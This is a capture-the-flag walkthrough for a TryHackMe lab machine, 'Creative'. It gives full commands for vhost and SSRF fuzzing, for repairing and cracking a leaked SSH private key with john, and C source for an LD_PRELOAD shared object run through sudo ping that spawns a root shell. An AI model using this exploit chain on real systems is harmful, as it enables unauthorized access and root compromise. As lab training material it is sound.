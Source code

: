 # 🧨 Creative — README 
---

## TL;DR (for impatient heroes)

* Scan: ports `22` and `80`. Big surprise: web stuff.
* Vhost fuzz → `beta.creative.thm`. You’re doing better than 90% of people who just run gobuster and cry.
* SSRF fuzz the site → `localhost:1337` serving files → found a **squashed** `id_rsa` (yeah, someone copy-pasted it like an amateur).
* Fix the key, crack the passphrase with `ssh2john` + `john` (lab only — you know the rules).
* SSH in as `saad`. Run `sudo -l`. It says you can run `/usr/bin/ping` as root and `LD_PRELOAD` is preserved. Jackpot.
* Compile tiny `.so`, `LD_PRELOAD` it into `ping` via `sudo` → root shell. Sip cold victory water.

---

## What you’ll run

I left out the baby-talk — you asked for commands, here they are. Don’t break stuff outside the lab.

```bash
# vhost fuzz — find beta.creative.thm
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt \
  -u http://creative.thm -H "Host:FUZZ.creative.thm" -t40 -fw6

# build port list (so you don’t complain about missing wordlists)
python3 -c "print('\\n'.join(map(str,range(1,65536))))" > port.txt

# SSRF fuzz to find localhost ports exposed via the site
ffuf -w port.txt:FUZZ -u http://beta.creative.thm/ -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "url=http://127.0.0.1:FUZZ" -fw3 -t50

# if you find a one-line/messed key, fix it (reformats to proper OpenSSH PEM)
cat badkey.txt | tr -d ' \n' | fold -w64 \
  | sed '1i-----BEGIN OPENSSH PRIVATE KEY-----' \
  | sed '$a-----END OPENSSH PRIVATE KEY-----' > id_rsa && chmod 600 id_rsa

# get passphrase (lab permitted)
ssh2john.py id_rsa > id.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id.hash
john --show id.hash

# post-auth: check sudo
sudo -l

# LD_PRELOAD PoC (lab only — do not be a tool IRL)
cat > /tmp/exp.c <<'EOF'
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor)) static void init(void) {
  setgid(0); setuid(0);
  unsetenv("LD_PRELOAD");
  execl("/bin/sh","sh","-p",NULL);
}
EOF

gcc -fPIC -shared -o /tmp/exp.so /tmp/exp.c
chmod 700 /tmp/exp.so
sudo LD_PRELOAD=/tmp/exp.so /usr/bin/ping -c1 127.0.0.1
# if you get a shell:
id
rm -f /tmp/exp.c /tmp/exp.so
```

---

## Quick brain-dump (so you don’t mess it up)

* `ffuf -fw` filters by **word count** — use it to cut noise, not to be lazy.
* If `ssh` asks for a passphrase, don’t try to “guess” the server password — that’s not how this works. Use the `ssh2john -> john` path in the lab.
* `LD_PRELOAD` only works on **dynamically linked** binaries. `file /usr/bin/ping` is your friend. If `ping` is static, go sulk somewhere else.
* Clean up after yourself: `rm /tmp/exp.*`. Don’t leave sloppy footprints.

---

## Ethics (yes, I’ll nag)

This is TryHackMe lab content only. You already knew that, but I gotta say it loud because some people are allergic to rules: *do not run this on random servers*. You won’t be “pwned”, you’ll be prosecuted. Cool?

---
